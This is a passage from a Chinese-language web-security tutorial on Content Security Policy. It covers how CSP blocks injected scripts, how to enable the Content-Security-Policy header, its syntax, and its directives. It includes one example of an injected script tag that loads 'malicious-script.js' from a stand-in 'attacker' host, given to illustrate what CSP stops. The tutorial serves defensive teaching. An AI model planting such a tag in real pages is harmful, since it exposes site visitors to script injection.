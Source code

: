#### 应用 CSP

在下面的例子中，攻击者成功在某个页面中注入了恶意代码：

```
<html>
Latest comment:
<script src="http://attacker/malicious‑script.js"></script>
</html>
```

如果定义了合理的 CSP 策略，浏览器就不会加载和执行 malicious-script.js，因为 http://attacker/ 不会出现在可信源集合中。在这种情况下，即使网站没能正确对输入进行安全处理，CSP 策略可以防止漏洞造成任何损害。

即使攻击者注入的不是外部文件，而是行内脚本代码，合理的 CSP 策略仍可以禁止行内 JavaScript，从而防止漏洞造成任何伤害。

#### 如何启用 CSP

默认情况下，浏览器不强制使用 CSP。为了给网站开启 CSP，响应中要带上额外的 HTTP 头：Content-Security-Policy。如果浏览器支持 CSP，那么所有带有这一 HTTP 头的页面都会遵守 CSP。

由于安全策略是通过每一个 HTTP 响应来发送，可以在服务端对每一页都设置安全策略。相同的策略可以通过在每个响应中提供相同的 CSP 头来应用到整站上。

Content-Security-Policy 响应头的值是一个字符串，定义了一个或多个安全策略，会应用到页面中。后面会讲到它的语法。

注意：本节示例中，为了表示清楚 HTTP 头部，使用了换行和缩进，在实际的 HTTP 头部中，这是不应该出现的。

#### CSP 语法

CSP 头部语法如下：

```
Content‑Security‑Policy:
    directive source‑expression, source‑expression, ...;
    directive ...;
    ...
```

由两个元素构成：

- **指令**：声明资源类型的字符串，从预定义列表中取值。
- **来源表达式（Source expressions）**：描述可以用于下载资源的一个或多个服务器的模式

对每个指令来说，给定的来源表达式定义了该资源类型可以使用哪些来源下载资源。

##### 指令

在 CSP 头部中可以使用的指令列表如下：

- connect‑src
- font‑src
- frame‑src
- img‑src
- media‑src
- object‑src
- script‑src
- style‑src

除了上面这些，还有一个特别的指令：default-src，它可以用来给所有指令提供一个默认值，那些没有出现在 HTTP 头部中的指令使用默认值。

